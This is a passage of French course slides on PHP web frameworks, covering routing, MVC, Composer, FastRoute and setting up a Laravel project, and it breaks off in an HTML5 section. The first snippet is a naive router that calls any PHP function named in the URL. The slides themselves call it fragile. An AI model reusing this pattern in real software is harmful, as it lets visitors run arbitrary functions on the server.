\KeywordTok{$uri}\NormalTok{ = }\KeywordTok{$\_SERVER}\OtherTok{[}\StringTok{\textquotesingle{}REQUEST\_URI\textquotesingle{}}\OtherTok{],}
\KeywordTok{$matches}\NormalTok{ = }\OtherTok{[];}

\FunctionTok{preg\_match}\OtherTok{(}
    \StringTok{"\#\^{}/(?P\textless{}page\textgreater{}[\^{}/]+)/(?P\textless{}slug\textgreater{}[\^{}/]+)/?\#"}\OtherTok{,}
    \KeywordTok{$uri}\OtherTok{,}
    \KeywordTok{$matches}
\OtherTok{)} \KeywordTok{or} \KeywordTok{die}\OtherTok{(}\StringTok{\textquotesingle{}Arrrrrgh\textquotesingle{}}\OtherTok{);}

\KeywordTok{echo} \FunctionTok{call\_user\_func\_array}\OtherTok{(}
    \KeywordTok{$matches}\OtherTok{[}\StringTok{\textquotesingle{}page\textquotesingle{}}\OtherTok{],}
    \OtherTok{[}\KeywordTok{$matches}\OtherTok{[}\StringTok{\textquotesingle{}slug\textquotesingle{}}\OtherTok{]]}
\OtherTok{);}
\end{Highlighting}
\end{Shaded}

\end{english}

Le code complet va nettoyer l'URI et définir les fonction correspondant
aux pages possibles.

\hypertarget{routing}{%
\section{\texorpdfstring{\emph{Routing}}{Routing}}\label{routing}}

Lien entre les adresses (URI) et des actions dans le code.

a.k.a. the \emph{Front Controller}.

En pratique, les actions ne sont pas des fonctions mises à plat mais
sont encapsulées dans une classe qu'on nomme un contrôleur. Faire ainsi
permet de regrouper logiquement les fonctions et éviter d'utiliser
d'affreux éléments tel que \textenglish{\texttt{global}}.

\hypertarget{moduxe8le---vue---contruxf4leur}{%
\section{Modèle - Vue -
Contrôleur}\label{moduxe8le---vue---contruxf4leur}}

\begin{itemize}
\tightlist
\item
  Modèle: l'ORM qui s'occupe de notre base de données
\item
  Vue: les templates qui affiche les données
\item
  Contrôleur: une classe qui définit quoi faire en fonction des entrées
  utilisateur (URI, formulaire, etc.)
\end{itemize}

\emph{MVC}(4) vient des applications bureau et ne représente pas
toujours le fonctionnement dans le monde du web. Par exemple, Django, un
framework Python, se décrit comme étant \emph{Modèle - Template -
Vue}(5).

Les frameworks web en PHP (ou d'autres langages) reposent
majoritairement sur ce paradigme.

\hypertarget{composer}{%
\section{\texorpdfstring{\emph{Composer}}{Composer}}\label{composer}}

Gestionnaire de paquets pour PHP:
\href{http://getcomposer.org/}{getcomposer.org}

Maintenir notre répertoire de \emph{vendor} ainsi que les
\textenglish{\texttt{require}} est peu pratique. Voici qu'entre en scène
\href{http://getcomposer.org/}{Composer}, le gestionnaire de paquet pour
PHP. \href{https://packagist.org/}{Packagist} est le dépôt en ligne de
paquets public et utilisé par défaut.

\hypertarget{composer.json}{%
\subsection{composer.json}\label{composer.json}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{\{}
    \DataTypeTok{"require"}\FunctionTok{:} \FunctionTok{\{}
        \DataTypeTok{"twig/twig"}\FunctionTok{:} \StringTok{"\^{}2.0"}\FunctionTok{,}
        \DataTypeTok{"gabordemooij/redbean"}\FunctionTok{:} \StringTok{"\^{}4.3"}\FunctionTok{,}
    \FunctionTok{\}}
\FunctionTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

Nos dépendances sont ainsi matérialisées dans le projet et peuvent être
installée, ou mises à jour simplement.

En principe les numéros de version respectent le
\href{http://semver.org/lang/fr/}{SemVer} (\emph{Semantic Versioning})
et les différents signes permettent de sélection une ou plusieurs
versions (voir {[}Version and
constraints{]}{[}https://getcomposer.org/doc/articles/versions.md{]}).

\begin{english}

\begin{verbatim}

$ composer install
\end{verbatim}

\end{english}

puis

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?php} \CommentTok{// 05{-}composer/index.php}

\KeywordTok{require} \StringTok{\textquotesingle{}vendor/autoload.php\textquotesingle{}}\OtherTok{;}

\KeywordTok{use}\NormalTok{ RedBeanPHP\textbackslash{}Facade }\KeywordTok{as} \KeywordTok{R}\OtherTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

Enfin, nous pouvons réduire le nombre de \textenglish{\texttt{require}}
et \textenglish{\texttt{include}} à un seul, en laissant soin à
l'\emph{auto-loader} de charger le bon fichier à la demande. Tout ceci
est spécifié dans \href{http://www.php-fig.org/psr/psr-4/}{PSR-4}.
Ainsi, les définitions de Twig sont présentes et il nous suffit
d'obtenir la classe \textenglish{\texttt{R}} depuis
\href{http://www.redbeanphp.com/}{RedBean}.

\hypertarget{front-controller}{%
\section{\texorpdfstring{\emph{Front-Controller}}{Front-Controller}}\label{front-controller}}

Utilisation de \href{https://github.com/nikic/FastRoute}{FastRoute}
(voir
\href{https://github.com/HE-Arc/php-intro-framework/blob/master/06-fastroute/index.php}{06-fastroute/index.php}).

\begin{english}

\begin{verbatim}
$ composer require nikic/fast-route
\end{verbatim}

\end{english}

\textenglish{\texttt{FastRoute}} repose sur un système proche de celui
que nous avons utilisé jusqu'ici. D'autres systèmes, tels que
\textenglish{\texttt{Aura.Router}} pour ne citer que lui, reposent sur
la spécification \href{http://www.php-fig.org/psr/psr-7/}{PSR-7}. Cette
dernière décrit l'interface objet d'un message HTTP, tant au niveau de
la requête que de la réponse.

Si ça ajoute, une bonne couche de complexité, l'énorme avantage offert
par cette idée là est de déléguer le rendu d'une page, ni
\textenglish{\texttt{echo}}, ni \textenglish{\texttt{header}}, Donc il
est envisageable de pouvoir tester (au sens de test unitaire), notre
\emph{FrontController}.

D'autre part, le \textenglish{\texttt{call\_user\_func\_array}} d'avant
n'était pas très solide,

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]

\KeywordTok{\textless{}?php} \CommentTok{// 06{-}fastroute/index.php}
\CommentTok{// ...}
\KeywordTok{use} \KeywordTok{function}\NormalTok{ FastRoute\textbackslash{}simpleDispatcher}\OtherTok{;}
\KeywordTok{use}\NormalTok{ FastRouter\textbackslash{}Dispatcher}\OtherTok{;}

\KeywordTok{$dispatcher}\NormalTok{ = simpleDispatcher}\OtherTok{(}\KeywordTok{function}\OtherTok{(}\KeywordTok{$r}\OtherTok{)}
\NormalTok{\{}
    \KeywordTok{$r}\NormalTok{{-}\textgreater{}addRoute}\OtherTok{(}\StringTok{\textquotesingle{}GET\textquotesingle{}}\OtherTok{,} \StringTok{\textquotesingle{}/\textquotesingle{}}\OtherTok{,} \StringTok{\textquotesingle{}accueil\textquotesingle{}}\OtherTok{);}

    \KeywordTok{$r}\NormalTok{{-}\textgreater{}addRoute}\OtherTok{(}
        \StringTok{\textquotesingle{}GET\textquotesingle{}}\OtherTok{,}
        \StringTok{\textquotesingle{}/equipe/\{slug\}\textquotesingle{}}\OtherTok{,}
        \StringTok{\textquotesingle{}equipe\textquotesingle{}}
    \OtherTok{);}
\NormalTok{\}}\OtherTok{);}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?php} \CommentTok{// 06{-}fastroute/index.php (suite)}

\KeywordTok{$httpMethod}\NormalTok{ = }\KeywordTok{$\_SERVER}\OtherTok{[}\StringTok{"REQUEST\_METHOD"}\OtherTok{];}
\KeywordTok{$uri}\NormalTok{ = }\KeywordTok{$\_SERVER}\OtherTok{[}\StringTok{"REQUEST\_URI"}\OtherTok{];}

\CommentTok{// nettoyage de $uri}
\CommentTok{// {-} prefix}
\CommentTok{// {-} query string}
\CommentTok{// {-} caractères spéciaux (e.g. \%20)}

\KeywordTok{$routeInfo}\NormalTok{ = }\KeywordTok{$dispatcher}\NormalTok{{-}\textgreater{}dispatch}\OtherTok{(}
    \KeywordTok{$httpMethod}\OtherTok{,}
    \KeywordTok{$uri}
\OtherTok{);}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?php} \CommentTok{// 06{-}fastroute (suite)}

\KeywordTok{switch}\OtherTok{(}\KeywordTok{$routeInfo}\OtherTok{[}\DecValTok{0}\OtherTok{])}\NormalTok{ \{}
    \KeywordTok{case }\NormalTok{Dispatcher::}\KeywordTok{NOT\_FOUND}\OtherTok{:}
    \KeywordTok{case }\NormalTok{Dispatcher::}\KeywordTok{METHOD\_NOT\_ALLOWED}\OtherTok{:}
        \CommentTok{/* ... */}\KeywordTok{break}\OtherTok{;}
    \KeywordTok{case }\NormalTok{Dispatcher::}\KeywordTok{FOUND}\OtherTok{:}
        \KeywordTok{try}\NormalTok{ \{}
            \KeywordTok{echo} \FunctionTok{call\_user\_func\_array}\OtherTok{(}
                \KeywordTok{$routeInfo}\OtherTok{[}\DecValTok{1}\OtherTok{],}
                \KeywordTok{$routeInfo}\OtherTok{[}\DecValTok{2}\OtherTok{]}
            \OtherTok{);}
\NormalTok{        \} }\KeywordTok{catch} \OtherTok{(}\KeywordTok{Exception} \KeywordTok{$e}\OtherTok{)}\NormalTok{\{}
            \KeywordTok{echo}\NormalTok{ server\_error}\OtherTok{(}\KeywordTok{$e}\OtherTok{);}
\NormalTok{        \}}
        \KeywordTok{break}\OtherTok{;}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{framework-php}{%
\section{\texorpdfstring{\emph{Framework
PHP}}{Framework PHP}}\label{framework-php}}

Une collection de bibliothèques avec un peu de glue.

Un framework web vous propose une structure de base pour construire
selon une méthode jugée bonne par ses concepteurs. Il est possible de
remplacer un composant par un autre, par le sien. Et même de créer sa
\emph{glue} ou même ses outils propres.

\hypertarget{liens-avec-laravel}{%
\subsection{Liens avec Laravel}\label{liens-avec-laravel}}

\begin{itemize}
\tightlist
\item
  Modèle MVC
\item
  Templates utilisant \emph{blade}.
\item
  ORM nommé \emph{Eloquent}.
\item
  \emph{Front-Controller}
  (\textenglish{\texttt{Illuminate\textbackslash{}Routing}})
\item
  Bibliothèques \ldots{}
  (\textenglish{\texttt{Illuminate\textbackslash{}*}})
\item
  \href{http://getcomposer.org/}{Composer}
\end{itemize}

Je vous invite à aller lire le code généré pour vous par Laravel. Vous
allez retrouver ces éléments. Symfony, CakePHP, etc. auront les mêmes
idées.

\hypertarget{exercice}{%
\subsection{Exercice}\label{exercice}}

\begin{itemize}
\tightlist
\item
  Refaites les différentes étapes à partir de
  \textenglish{\texttt{00-base}}.
\item
  Tel quel ou en utilisant d'autres bibliothèques :
  \href{https://github.com/smarty-php/smarty}{Smarty},
  \href{https://www.doctrine-project.org/projects/doctrine-orm/en/current/tutorials/getting-started.html}{Doctrine},
  \href{https://github.com/auraphp/Aura.Router}{Aura.Router}
\end{itemize}

\hypertarget{fin}{%
\section{Fin}\label{fin}}

Questions?

\hypertarget{sources}{%
\section*{Sources}\label{sources}}
\addcontentsline{toc}{section}{Sources}

\hypertarget{refs}{}
\begin{cslreferences}
\leavevmode\hypertarget{ref-w3c:20}{}%
1. W3C. W3C 20 Anniversary Symposium. {[}en~ligne{]}.
{[}Consulté~le~7~février~2017{]}. Disponible à l'adresse~:
\url{https://www.w3.org/20/Overview.html}

\leavevmode\hypertarget{ref-xkcd:327}{}%
2. MUNROE, Randall. Exploits of a mom. {[}en~ligne{]}. 2007.
{[}Consulté~le~7~février~2017{]}. Disponible à l'adresse~:
\url{https://xkcd.com/327/}

\leavevmode\hypertarget{ref-wiki:orm}{}%
3. WIKIPEDIA. \emph{Mapping objet-relationnel} {[}en~ligne{]}.
{[}Consulté~le~7~février~2017{]}. Disponible à l'adresse~:
\url{https://fr.wikipedia.org/wiki/Mapping_objet-relationnel}

\leavevmode\hypertarget{ref-wiki:mvc}{}%
4. WIKIPEDIA. Modèle-Vue-Contrôleur. {[}en~ligne{]}.
{[}Consulté~le~7~février~2017{]}. Disponible à l'adresse~:
\url{https://fr.wikipedia.org/wiki/Modèle-vue-contrôleur}

\leavevmode\hypertarget{ref-django:mtv}{}%
5. DJANGO PROJECT. Django appears to be a MVC framework, but you call
the Controller the «~view~», and the View the «~template~». How come you
don't use the standard names? \emph{FAQ: General} {[}en~ligne{]}.
{[}Consulté~le~7~février~2017{]}. Disponible à l'adresse~:
\url{https://docs.djangoproject.com/en/1.11/faq/general/\#django-appears-to-be-a-mvc-framework-but-you-call-the-controller-the-view-and-the-view-the-template-how-come-you-don-t-use-the-standard-names}
\end{cslreferences}


\chapter{ Laravel}
\hypertarget{pourquoi-laravel}{%
\section{\texorpdfstring{Pourquoi \href{https://laravel.com/}{Laravel}
?}{Pourquoi Laravel ?}}\label{pourquoi-laravel}}

\begin{itemize}
\tightlist
\item
  Framework full stack / glue
\item
  Prise en main rapide
\item
  Bonne documentation, grande \href{http://laravel.io/forum}{communauté}
\item
  Incite au respect des principes
  \href{http://fr.wikipedia.org/wiki/SOLID_(informatique)}{S.O.L.I.D}
\item
  Gratuit et opensource (Licence MIT)
\end{itemize}

\hypertarget{historique}{%
\section{Historique}\label{historique}}

\begin{itemize}
\tightlist
\item
  Projet initié en 2011 par \href{http://taylorotwell.com/}{Taylor
  Otwell}
\item
  Basé sur des composants d'autres frameworks
\item
  Mai 2013 : version 4, utilise
  \href{https://getcomposer.org/}{composer}
\item
  Août 2014 : projet PHP le plus
  \href{https://github.com/search?l=PHP\&q=stars\%3A\%3E0\&ref=searchresults\&type=Repositories}{populaire}
  sur github
\item
  \href{https://madewithlaravel.com/}{Qui} utilise Laravel ?
\item
  version 9 publiée 08.02.22, v10 : 07.02.23
\end{itemize}

\hypertarget{principales-fonctionnalituxe9s}{%
\section{Principales
fonctionnalités}\label{principales-fonctionnalituxe9s}}

\begin{itemize}
\tightlist
\item
  Routes RESTful
\item
  ORM (Eloquent, implémentation du pattern Active Record)
\item
  Migrations
\item
  Moteur de templates (Blade)
\item
  Pagination
\item
  Authentification, sessions
\item
  Mail
\item
  Tests unitaires
\item
  Extensible par \href{http://packalyst.com/}{packages} (bundles) via
  composer
\end{itemize}

\hypertarget{le-front-controller}{%
\section{Le Front Controller}\label{le-front-controller}}

\begin{figure}
\centering

\includegraphics{src/img/front-ctrl.jpg}
\caption{Rôle du front controller}
\end{figure}

\hypertarget{architecture}{%
\section{Architecture}\label{architecture}}

\begin{figure}
\centering

\includegraphics{src/img/laravel-architecture.jpg}
\caption{Architecture de Laravel}
\end{figure}

\hypertarget{mvc}{%
\section{MVC}\label{mvc}}

\begin{itemize}
\tightlist
\item
  Structure d'une appli web =
  \href{https://laravel.com/docs/master/lifecycle}{cycle
  Requête/Reponse}
\item
  Modèle : Eloquent ORM
\item
  Vue : Blade Engine
\item
  Contrôleur : hérite de BaseController
\end{itemize}

\hypertarget{pratique}{%
\section{Pratique}\label{pratique}}

\begin{itemize}
\tightlist
\item
  Conventions de codage : Laravel respecte
  \href{https://laravel.com/docs/5.1/contributions\#coding-style}{PSR-2}

  \begin{itemize}
  \tightlist
  \item
    Vous aussi avec \href{https://styleci.io/}{StyleCI}
  \end{itemize}
\item
  Editeurs et IDE : PhpStorm, \href{https://glitch.com/}{glitch},
  brackets, VS Code, \href{https://repl.it/}{repl.it},
  \href{https://www.gitpod.io/}{Gitpod}\ldots{}
\item
  Tests : unitaires, Jmeter, Selenium, \ldots{}
\item
  Outils : devtools Chrome ou FF, \href{http://emmet.io/}{Emmet}, git
\item
  Doc

  \begin{itemize}
  \tightlist
  \item
    \href{https://laravel.com/docs/master}{Documentation officielle} de
    Laravel
  \item
    Cheat Sheet \href{https://learninglaravel.net/cheatsheet/}{Laravel
    8}, \href{https://artisan.page/}{Artisan 9}
  \end{itemize}
\item
  Tutoriels

  \begin{itemize}
  \tightlist
  \item
    Pour un tuto à jour : bien préciser la version (8) dans votre
    recherche
  \item
    Laravel 9 : \href{https://laravel.sillo.org/laravel-9/}{Best Momo},
    \href{https://www.tutsmake.com/page/1/?s=tutorial+laravel+9}{Tuts
    Make},
    \href{https://www.pluralsight.com/courses/laravel-9-fundamentals}{Plural
    Sight}
  \end{itemize}
\end{itemize}

\hypertarget{environnement-de-duxe9veloppement}{%
\section{Environnement de
développement}\label{environnement-de-duxe9veloppement}}

\begin{itemize}
\tightlist
\item
  De quoi ai-je besoin pour développer ?

  \begin{itemize}
  \tightlist
  \item
    (L)AMP : Serveur HTTP, SGBD, PHP
  \item
    Git
  \item
    \href{https://getcomposer.org/}{Composer} : gestionnaire de
    dépendances PHP
  \item
    Associer nom de domaine au dossier projet
  \end{itemize}
\item
  Installer Laravel (créer un nouveau projet)
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$composer} \ExtensionTok{global}\NormalTok{ require }\StringTok{"laravel/installer"}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Le déploiement est simplifié si l'env de \textbf{dev} ressemble à
  celui de \textbf{production}
\end{itemize}

\hypertarget{environnement-de-duxe9veloppement-1}{%
\section{Environnement de
développement}\label{environnement-de-duxe9veloppement-1}}

\begin{itemize}
\tightlist
\item
  Local

  \begin{itemize}
  \tightlist
  \item
    Installation AMP, git + configuration : Long
  \item
    Dépendant du poste de travail
  \item
    Travail offline
  \end{itemize}
\item
  VM (Vagrant -
  \href{https://laravel.com/docs/master/homestead}{Homestead}) ou
  conteneur

  \begin{itemize}
  \tightlist
  \item
    Mise en route plus rapide : pré-configuré
  \item
    Environnement dédié au dev, identique pour chaque développeur
  \end{itemize}
\item
  Cloud (koding.com, coder.com, repl.it, gitpod \ldots)

  \begin{itemize}
  \tightlist
  \item
    Mise en route plus rapide : pré-configuré
  \item
    Indépendant du poste de travail (navigateur)
  \item
    Outils de synchro disponibles
  \end{itemize}
\end{itemize}

\hypertarget{aide-uxe0-la-mise-en-place-du-dev-env}{%
\section{Aide à la mise en place du dev
env}\label{aide-uxe0-la-mise-en-place-du-dev-env}}

\begin{itemize}
\tightlist
\item
  Paquets AMP (WAMP, EasyPHP, \ldots)
\item
  Pour aller plus vite :

  \begin{itemize}
  \tightlist
  \item
    Windows : \href{https://laragon.org/}{Laragon}
  \item
    Laravel Valet pour
    \href{https://laravel.com/docs/master/valet}{Mac},
    \href{https://cpriego.github.io/valet-linux/\#installation}{Ubuntu},
    et \href{https://github.com/valeryan/valet-wsl}{WSL}
  \end{itemize}
\item
  Windows avec WSL

  \begin{itemize}
  \tightlist
  \item
    \href{https://jackwhiting.co.uk/posts/setting-up-a-windows-10-development-environment-with-wsl-php-laravel/}{Tuto}
  \end{itemize}
\end{itemize}

\hypertarget{duxe9marrer-un-projet}{%
\section{Démarrer un projet}\label{duxe9marrer-un-projet}}

\begin{itemize}
\tightlist
\item
  Créer un nouveau projet
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{$ }\ExtensionTok{composer}\NormalTok{ create{-}project laravel/laravel raidit}
\CommentTok{\# ou si \textasciitilde{}/.composer/vendor/bin est dans le PATH :}
\NormalTok{$ }\ExtensionTok{laravel}\NormalTok{ new raidit}
\NormalTok{$ }\BuiltInTok{cd}\NormalTok{ raidit}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Racine du site dans \textenglish{\texttt{/public}} (lien symbolique ou
  virtual host)
\end{itemize}

\hypertarget{le-duxe9puxf4t}{%
\section{Le dépôt}\label{le-duxe9puxf4t}}

\begin{itemize}
\tightlist
\item
  Initialiser le dépôt
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$cd} \ExtensionTok{raidit}
\VariableTok{$git} \ExtensionTok{init}
\VariableTok{$git} \ExtensionTok{add}\NormalTok{ .}
\VariableTok{$git} \ExtensionTok{commit}\NormalTok{ {-}m }\StringTok{"Install laravel"}
\VariableTok{$git} \ExtensionTok{remote}\NormalTok{ add origin git@github.com:bastian/raidit.git}
\VariableTok{$git} \ExtensionTok{push}\NormalTok{ {-}{-}set{-}upstream origin master}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Penser à ajouter sa clé publique à Github
\end{itemize}

\hypertarget{apache}{%
\section{Apache}\label{apache}}

\begin{itemize}
\tightlist
\item
  Virtual hosts

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{http-vhosts.conf}} (activer dans
    \textenglish{\texttt{httpd.conf}})
  \item
    Un par site
  \item
    Pointer dans \textenglish{\texttt{/public}}
  \end{itemize}
\item
  \textenglish{\texttt{AllowOverride}} : active
  \textenglish{\texttt{.htaccess}}
\item
  \textenglish{\texttt{.htaccess}} : redirection des requêtes
\item
  Alternative : Remplacer le dossier racine http par un lien symbolique
  vers le dossier \textenglish{\texttt{/public}}
\end{itemize}

\hypertarget{artisan}{%
\section{Artisan}\label{artisan}}

\begin{itemize}
\tightlist
\item
  Laravel's CLI
\item
  Construit avec Symfony Console
\item
  Aide aux tâches courantes, ex:
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$php} \ExtensionTok{artisan}\NormalTok{ route:list}
\VariableTok{$php} \ExtensionTok{artisan}\NormalTok{ migrate}
\VariableTok{$php} \ExtensionTok{artisan}\NormalTok{ make:controller}

\VariableTok{$php} \ExtensionTok{artisan}\NormalTok{ list}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  \href{https://laravel.com/docs/master/artisan}{Extensible}
\end{itemize}

\hypertarget{premiers-pas}{%
\section{Premiers pas}\label{premiers-pas}}

\begin{itemize}
\tightlist
\item
  \href{https://laravel.com/docs/master/routing}{Routes}

  \begin{itemize}
  \tightlist
  \item
    Ajouter une route \textenglish{\texttt{/test}}
  \item
    Ajouter un paramètre qui sera affiché :
    \textenglish{\texttt{/test/param}}
  \item
    Utiliser une vue pour cette route
  \item
    Lister les routes avec la commande artisan
  \end{itemize}
\end{itemize}

. . .

\begin{itemize}
\tightlist
\item
  \href{https://laravel.com/docs/master/controllers}{Contrôleurs}

  \begin{itemize}
  \tightlist
  \item
    Ajouter un contrôleur : \textenglish{\texttt{Test}}
  \item
    Lui ajouter une action : \textenglish{\texttt{index}}
  \item
    Ajouter la route correspondante : \textenglish{\texttt{/test/index}}
  \end{itemize}
\end{itemize}

. . .

\begin{itemize}
\tightlist
\item
  \href{https://laravel.com/docs/master/views}{Vues}

  \begin{itemize}
  \tightlist
  \item
    Ajouter une vue Blade (\textenglish{\texttt{.blade.php}})
  \item
    Afficher cette vue dans l'action \textenglish{\texttt{index}}
  \end{itemize}
\end{itemize}

\hypertarget{ressources}{%
\section{Ressources}\label{ressources}}

\begin{itemize}
\tightlist
\item
  \href{https://github.com/LaravelDaily/laravel-tips}{Tips}
\item
  \href{https://hackr.io/blog/laravel-cheat-sheet}{Cheat Sheet}
\item
  \href{https://laracasts.com/search?query=laravel\%209}{Laracast}
\item
  \href{http://learninglaravel.net/tags/tutorials}{Learning Laravel}
\item
  \href{https://www.tutsmake.com/laravel-8-rest-api-crud-with-passport-auth-tutorial/}{Laravel
  REST API CRUD tuto}
\item
  \href{https://github.com/HE-Arc/slides-devweb/wiki/Ressources}{Les
  vôtres}
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ HTML 5}
\hypertarget{exemples}{%
\section{Exemples}\label{exemples}}

\begin{itemize}
\tightlist
\item
  Vue d'ensemble :
  \href{http://web.archive.org/web/20150525080904/http://slides.html5rocks.com/\#landing-slide}{slides}
  Google 2011 (
  \href{https://github.com/html5rocks/slides.html5rocks.com}{sources} )

  \begin{itemize}
  \tightlist
  \item
    Obslolète : \sout{quota}, \sout{web sql} : Web Storage,
    \sout{application cache} : Service Workers
  \end{itemize}
\item
  API d'accès à la
  \href{http://www.soundstep.com/blog/experiments/jsdetection/}{caméra},
  avec du
  \href{http://auduno.github.io/clmtrackr/examples/facesubstitution.html}{webGL}\ldots{}
\item
  Bachelor NIFFF 2014 : une webapp mobile pour LACIS
\item
  Plein d'exemples

  \begin{itemize}
  \tightlist
  \item
    \href{http://www.html5rocks.com/}{html5 rocks!} =\textgreater{}
    \href{https://developers.google.com/web/}{Web Fundamentals}
  \item
    \href{http://www.chromeexperiments.com/}{Chrome Experiments}
  \item
    \href{https://developer.mozilla.org/en-US/demos/tag/tech:html5}{MDN}
  \item
    \href{http://html5demos.com/}{html5 demos}
  \item
    \href{http://bit.ly/VJaqjb}{plus de demos ?}
  \end{itemize}
\item
  Veille : \href{http://html5weekly.com/}{Frontend Focus} (newsletter)
\item
  Disponibilité dans les navigateurs
  \href{https://caniuse.com/}{CanIUse.com}
\end{itemize}

\hypertarget{progressive-web-apps}{%
\section{Progressive Web Apps}\label{progressive-web-apps}}

\begin{itemize}
\tightlist
\item
  Priorité à l'UX
\item
  Utilise moins d'espace qu'une app native
\item
  Avantages des 2 mondes (natif et web)
\item
  \href{https://infrequently.org/2015/06/progressive-apps-escaping-tabs-without-losing-our-soul/}{Article}
  d'Alex Russel 15.06.15
\item
  Vue d'ensemble par
